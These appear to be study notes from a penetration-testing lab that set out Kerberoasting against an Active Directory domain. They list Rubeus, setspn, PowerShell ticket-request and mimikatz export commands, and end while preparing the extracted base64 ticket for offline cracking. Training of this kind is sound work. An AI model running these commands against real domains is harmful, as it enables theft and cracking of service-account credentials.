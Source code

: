 find roastable
```
rubeas /stats
```

roast all admins
```powershell
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
#### METHOD 2; MANUAL TICKET EXTRACTION
import module
```powershell-session
Add-Type -AssemblyName System.IdentityModel
```
gather spns:
```
setspn -Q */*
```


`Authenticate to kerberos to request tickets granting services`
```
PS C:\Tools> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "vmware/inlanefreight.local"

```

`Kerberoasting (Retrieving All TGs with setspn.exe`
```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```



`Extracting the Retrieved TGS ticket from memory mimikatz`
```
.\mimikatz.exe
MMK# base64 /out:true
kerberos::list /export

```

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.
#### Preparing the Base64 Blob for Cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n 

doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFORUZSRwEA<snip>
```

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

#### Placing the Output into a File as .kirbi
